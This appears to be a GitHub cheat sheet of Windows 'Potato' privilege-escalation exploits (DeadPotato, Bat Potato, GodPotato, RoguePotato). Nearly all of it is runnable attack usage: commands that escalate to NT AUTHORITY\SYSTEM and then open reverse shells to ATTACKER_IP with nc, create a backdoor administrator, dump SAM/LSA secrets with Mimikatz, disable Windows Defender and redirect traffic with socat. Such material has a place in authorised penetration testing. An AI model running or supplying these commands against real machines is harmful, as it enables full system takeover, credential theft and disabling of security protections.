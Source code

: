 # Potato Exploits

Link for reference: https://github.com/AtvikSecurity/CentralizedPotatoes

### 1) Dead Potato

Link: https://github.com/lypd0/DeadPotato

#### Usage

The SeImpersonatePrivilege right is enabled in your context? With DeadPotato, it is possible to achieve maximum privileges on the local system.

The tool will attempt to start an elevated process running in the context of the NT AUTHORITY\SYSTEM user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.

    C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.2 =-
        ⠈⠁⠀⠀⠀

    _,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_
  
     (*) Example Usage(s):

     -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

     -> deadpotato.exe -cmd "whoami"
     -> deadpotato.exe -rev 192.168.10.30:9001
     -> deadpotato.exe -exe paylod.exe
     -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
     -> deadpotato.exe -shell
     -> deadpotato.exe -mimi sam
     -> deadpotato.exe -defender off
     -> deadpotato.exe -sharphound

     (*) Available Modules:

     - cmd: Execute a command as NT AUTHORITY\SYSTEM.
     - rev: Attempts to establish a reverse shell connection to the provided host
     - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
     - newadmin: Create a new administrator user on the local system.
     - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
     - mimi: Attempts to dump SAM/LSA/SECRETS with Mimikatz. (NOTE: This will write mimikatz to disk!)
     - defender: Either enables or disables Windows Defender's real-time protection.
     - sharphound: Attempts to collect domain data for BloodHound.

### 2) Bat Potato

Link: https://github.com/0x4xel/Bat-Potato

#### Usage

Attacker:

    python Bat-Potato.py

Server will be listening incomming requests. Keep that connection alive, open new tab and open another listening port for the reverse shell.

    rlwrap nc -lvnp 4444

You must upload the following files on the server:

- wget.exe

- Bat-Potato.bat file generated by python script

On the server, execute

    .\Bat-Potato.bat

This will upload shell.bat, nc.exe and Juicy binary from server and will attempt to Privesc making all the CLSID request automatically.

### 3) God Potato

Link: https://github.com/BeichenDream/GodPotato

1) Run commands

        GodPotato -cmd "cmd /c whoami"

2) Execute reverse shell

        GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe ATTACKER_IP PORT"

### 4) Rogue Potato

You need to have a machine under your control where you can perform the redirect and this machine must be accessible on port 135 by the victim

Link: https://github.com/k4sth4/Rogue-Potato

1) Run on your machine the socat redirection

       socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999

2) Execute PoC

       .\RoguePotato.exe -r YOUR_IP -e "command" -l 9999
